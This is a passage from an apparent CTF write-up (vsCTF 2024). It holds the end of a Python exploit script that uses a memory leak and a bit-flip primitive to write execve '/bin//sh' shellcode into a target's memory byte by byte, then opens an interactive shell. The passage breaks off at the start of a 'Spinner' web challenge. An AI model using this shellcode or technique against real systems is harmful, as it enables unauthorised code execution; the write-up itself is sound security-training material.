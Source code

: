```python
	print("ret is {}".format(ret))
	
	return ret[0:].split(b"|")[1:9]

def write_byte(addr, byte):
	"""
	Write the byte <val> to the address <addr>
	"""
	leak = mem_leak(addr) # Get the current value of the byte as a list
	to_flip = [] # Which bits should we flip to get to the desired byte?
	
	print("leak is {}", leak)  
	
	for i in range(8):
		if ord(leak[i]) - 0x30 == (byte >> (7 - i)) & 1:
			to_flip.append(b"0")
		else:
			to_flip.append(b"1")
	
	for i in range(8):
		if to_flip[i] == b"1":
			flip_bit(addr, i)

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
print("[+] Finished writing the shellcode of length {}".format(len(shellcode)))
infinite_loop()
for i in range(len(shellcode)):
	print("Writing byte {}".format(i))
	write_byte(hex(SHELLCODE_START+i), shellcode[i])
	print("Wrote byte {}".format(i))

print("[+] Finished writing the shellcode of length {}".format(len(shellcode)))
stop_infinite_loop()
p.interactive()
```

Overall, a really cool challenge that shows how much you can do with just a single bit flip!

# Spinner (Web)
In this challenge, we get a web page and the server-side code:
![spinner_page](/assets/img/vsctf2024/spinner_page.png)